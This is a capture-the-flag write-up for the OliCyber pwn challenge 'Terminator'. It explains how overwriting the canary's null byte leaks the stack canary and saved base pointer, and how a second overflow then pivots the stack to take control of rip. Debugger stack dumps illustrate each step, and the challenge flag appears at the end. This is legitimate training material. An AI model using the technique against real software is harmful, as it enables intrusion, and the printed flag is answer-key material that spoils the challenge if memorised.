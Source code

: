 # Terminator

## Description
> Ho appena incontrato Terminator, non pensavo fosse così gentile!<br>
Puoi collegarti al servizio remoto con:<br>
nc terminator.challs.olicyber.it 10307

## Solution
I used [Cutter]('https://github.com/rizinorg/cutter') to analize this program and this is what I found out.

The program reads an input of 0x38 bytes and saves it in a 56(0x38) long char array named **buf**, then save the value `0xa` to the address  `*buf+inputLen`.


Being the stack frame like this
|address (higher to lower)|value|
|---|---|
|rbp-0x44|inputLen|
|rbp-0x40|*buf|
|rbp-0x10|*buf+48|
|...|...|
|rbp-0x8|stack canary|
|rbp|saved base pointer|

If we send 56 characters, `0xa` will be saved in `*buf+56`, which is no longer a value of **buf** (because it ends at `*buf+55`) but is the *less significant byte* of **stack canary**.

Usually the *less significant byte* of the **stack canary** is set to `0x0` so as to avoid it being leaked (the function that is supposed to leak it would stop at that `0x0`) but in this case we managed to replace it with `0xa`, so the `printf()` that returns our input will continue to print from the stack until another *null byte* is found, leaking the **stack canary** first and then also the **saved base pointer**.<br>

But what do we do with the **stack canary** now?<br>
We observe that the program now asks us for another input using a read of 0x48 and saving it in the same buffer used before of length 56, this obviusly allow us to perform a buffer overflow attack and knowing the **canary** is essential to our goal.

Usually the goal of a buffer overflow is to overwrite the **return address** in such a way as to direct the execution of the program to our liking. In this case, however, it is not possible, since the **return address** is located 0x48 bytes below (actually above being that stack grows downwards) and we can write exactly 0x48 bytes, so we stop at exactly the byte before where the return address is stored.
<br>
On the stack, before the **return address**, is stored the **saved base pointer** of the previous stack frame, and luckly, there's a tecnique called *stack pivoting* wich allows us to redirect the program flow by editing the value of the **saved base pointer**.


### Stack Pivoting
- This is the stack while we are in the `welcome()` function
```bash
00:0000│ rsp 0x7ffee1f1b080 ◂— 0x0
01:0008│     0x7ffee1f1b088 ◂— 0x38194fa013
02:0010│     0x7ffee1f1b090 ◂— 0x4141414141414141 ('AAAAAAAA')
... ↓        6 skipped
09:0048│     0x7ffee1f1b0c8 ◂— 0x4242424242424242 ('BBBBBBBB')
0a:0050│ rbp 0x7ffee1f1b0d0 ◂— 0x4343434343434343 ('CCCCCCCC')
0b:0058│     0x7ffee1f1b0d8 —▸ 0x4011c7 (main+101)
0c:0060│     0x7ffee1f1b0e0 —▸ 0x7ffee1f1b1e0
0d:0068│     0x7ffee1f1b0e8 —▸ 0x402004 ◂— 'Welcome!!!\n'
0e:0070│     0x7ffee1f1b0f0 ◂— 0x0
0f:0078│     0x7ffee1f1b0f8 —▸ 0x7f661948d0b3 (__libc_start_main+243)
```

- **leave** (`mov rsp, rbp` and `pop rbp`) from `welcome()`
```bash
00:0000│ rsp 0x7ffee1f1b0d8 —▸ 0x4011c7 (main+101)
01:0008│     0x7ffee1f1b0e0 —▸ 0x7ffee1f1b1e0 ◂— 0x1
02:0010│     0x7ffee1f1b0e8 —▸ 0x402004 ◂— 'Welcome!!!\n'
03:0018│     0x7ffee1f1b0f0 ◂— 0x0
04:0020│     0x7ffee1f1b0f8 —▸ 0x7f661948d0b3 (__libc_start_main+243)
... ↓        
..:....│ rbp 0x4343434343434343 ◂— 0xdeadbeef
```

- **ret** (`pop rip`)
```bash
00:0000│ rsp 0x7ffee1f1b0e0 —▸ 0x7ffee1f1b1e0 ◂— 0x1
01:0008│     0x7ffee1f1b0e8 —▸ 0x402004 ◂— 'Welcome!!!\n'
02:0010│     0x7ffee1f1b0f0 ◂— 0x0
03:0018│     0x7ffee1f1b0f8 —▸ 0x7f661948d0b3 (__libc_start_main+243)
... ↓        
..:....│ rbp 0x4343434343434343 ◂— 0xdeadbeef

rip 0x4011c7 (main+101)
```
- 0x4011c7 contains `mov rax, 0` so this is executed and the `rip` is incremented to 0x4011cc
- **leave** (`mov rsp, rbp` and `pop rbp`) from `main()`
```bash
00:0000│     0x4343434343434343
01:0008│ rsp 0x434343434343434b
... ↓
..:....│ rbp 0xdeadbeef

rip 0x4011cd
```

- **ret** (`pop rip`)
```bash
00:0000│     0x434343434343434b
01:0008│ rsp 0x4343434343434353
... ↓
..:....│ rbp 0xdeadbeef

rip 0x4343434343434353
```

We managed to give `rip` the value of the **saved base pointer (incremented by 0x10)** saved in the `welcome()` frame, which we can arbitrary change due to the stack overflow.

## Flag
`flag{d0Nt_F0rg37_y0uR_5tr1nG_T3rM1n470R}`